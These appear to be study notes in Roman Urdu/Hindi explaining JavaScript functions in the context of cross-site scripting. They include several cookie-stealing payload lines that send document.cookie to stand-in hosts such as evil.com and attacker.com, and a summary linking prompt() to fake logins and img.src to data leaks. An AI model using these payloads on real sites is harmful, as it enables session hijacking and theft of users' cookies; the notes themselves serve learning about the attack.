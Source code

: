 JavaScript main agr hum **alert()** use krty hain ky website main XSS execute hoo rha hai ya nhi agr execute hoo rha hua too aik pop up ajaye ga
---

**prompt()** hum kisi command ky sath ius waqt use krty hain jab hamy user sy input chahie hota hai example agr hum likhty hain prompt("Enter your password") too website py aik display hota hai Enter Your Password phir user ius main apna password daaly ga
---

**var** hum taab lagaty hain jab hum user ki value ko apny database main store karna chahty hoon

**let** var aur let dono value store karte hain — lekin let zyada safe hota hai.
---

## Difference Between Var/let

Value store karna

**var**

var name = "Habib";

- Old JavaScript version ka style hai.

- Function-level scope rakhta hai.

**let**

let age = 18;

- New aur modern style hai (ES6+).

- Block-level scope rakhta hai.
---

**document.cookie** — (Cookies churaana)

document.cookie ek JavaScript command hai jo browser se current website ki cookie value nikalta hai.

### ⚠️ XSS mein is kaam ke liye use hota hai:

**var c = document.cookie;
alert(c); // tumhari current session ki cookies dikha dega**

### Agar attacker ka XSS payload chalta hai, toh wo ye kar sakta hai:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

### 🕵️‍♂️ Matlab: Victim ki session cookie attacker ko chali jaayegi = session hijack
---

**fetch()** — (Data dusri jagah bhejna)

fetch() ka kaam hota hai HTTP request bhejna JavaScript se.

### Example:

**fetch("https://attacker.com/steal?info=hello");**

🧠 Attacker isse user ka input, cookie, ya password apni site pe secretly bhej sakta hai.

### XSS exploit:

**fetch("https://evil.com/log?cookie=" + document.cookie);**
---

### Quick Summary

**alert()**	Popup show karta hai	

XSS main use: XSS payload test karna

**prompt()**	User se input leta hai

XSS main use: Fake login / phishing

**var or let**	Value store karta hai
XSS main use: Cookie ya user data store karna

**if / else** Logic lagana
XSS main use:	Kab kya run ho

**document.cookie**	User ki cookies nikalna
XSS main use:	Session hijack

**fetch()** Data dusri site pe bhejna
XSS main use: Data leak (exfiltrate)

**img.src** 	Image ke zariye request bhejna	
XSS main use: Alternate data leak meth

if else bhi 100% samj agya


